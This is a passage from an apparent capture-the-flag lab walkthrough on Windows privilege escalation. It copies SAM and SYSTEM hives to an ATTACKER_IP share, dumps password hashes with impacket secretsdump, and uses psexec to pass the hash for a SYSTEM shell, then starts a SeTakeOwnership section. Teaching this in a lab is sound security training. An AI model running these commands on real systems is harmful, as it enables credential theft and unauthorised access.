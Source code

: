 Command Prompt
C:\> copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\
C:\> copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\
And use impacket to retrieve the users' password hashes:

Kali
Linux
user@attackerpc$ python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

We can finally use the Administrator's hash to perform a Pass-the-Hash attack and gain access to the target machine with SYSTEM privileges:

Kali
Linux
user@attackerpc$ python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@MACHINE_IP
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.10.175.90.....
[*] Found writable share ADMIN$
[*] Uploading file nfhtabqO.exe
[*] Opening SVCManager on 10.10.175.90.....
[*] Creating service RoLE on 10.10.175.90.....
[*] Starting service RoLE.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system


## SeTakeOwnership
The SeTakeOwnership privilege allows a user to take ownership of any object on the system, including files and registry keys, opening up many possibilities for an attacker to elevate privileges, as we could, for example, search for a service running as SYSTEM and take ownership of the service's executable. For this task, we will be taking a different route, however.

Log in to the target machine via RDP using the following credentials:

To get the SeTakeOwnership privilege, we need to open a command prompt using the "Open as administrator" option. We will be asked to input our password to get an elevated console:

Run as admin

Once on the command prompt, we can check our privileges with the following command:

Command Prompt
C:\> whoami /priv

